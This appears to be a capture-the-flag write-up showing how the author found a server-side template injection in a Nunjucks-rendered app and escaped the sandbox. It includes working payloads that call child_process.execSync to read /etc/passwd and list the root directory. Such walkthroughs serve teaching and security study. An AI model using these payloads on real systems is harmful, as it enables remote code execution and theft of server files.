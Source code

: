### Nunjucks SSTI and Sandbox Escape:

Here, we see the code base is leveraging Nunjucks to help render the card. [Nunjucks](https://mozilla.github.io/nunjucks/) is a templating engine specifically for
JavaScript, which immediately makes me think this might be some sort of template injection vulnerability. We can do a quick test to confirm. 

First, we edit one of the items to contain `{{7*7}}`.

![7_7](test_payload.png)

Navigating back to the homepage, we see that the our `{{7*7}}` payload renders as `49`, confirming that we have found a Server Side Template Injection!

![49](49.png)

If we continue to poke around on Google, we find some research has already been done on SSTI within Nunjucks. Nunjucks template code runs in a sandbox, so in order to get RCE we 
need to break out of that sandbox and access the underlying OS. If you are interested in how this sandbox escape works, checkout the pre-existing research that I used as a reference during this challenge - 
[SANDBOX BREAKOUT - A VIEW OF THE NUNJUCKS TEMPLATE ENGINE](http://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine). From that article, 
we see the researchers obtained RCE with the following command:

```js
{% raw %}{{range.constructor("return global.process.mainModule.require('child_process').execSync('tail /etc/passwd')")()}}{% endraw %}
```

Modifying this payload, we can obtain the flag!

### Final Payload:

First, we run 

```js
{% raw %}{{range.constructor("return global.process.mainModule.require('child_process').execSync('ls /')")()}}{% endraw %}
```

![ls](ls.png)

We see the flag here, and we can change the payload to `cat` it out!

![see_flag](see_flag.png)
![flag](flag.png)
![flag](flag_contents.png)
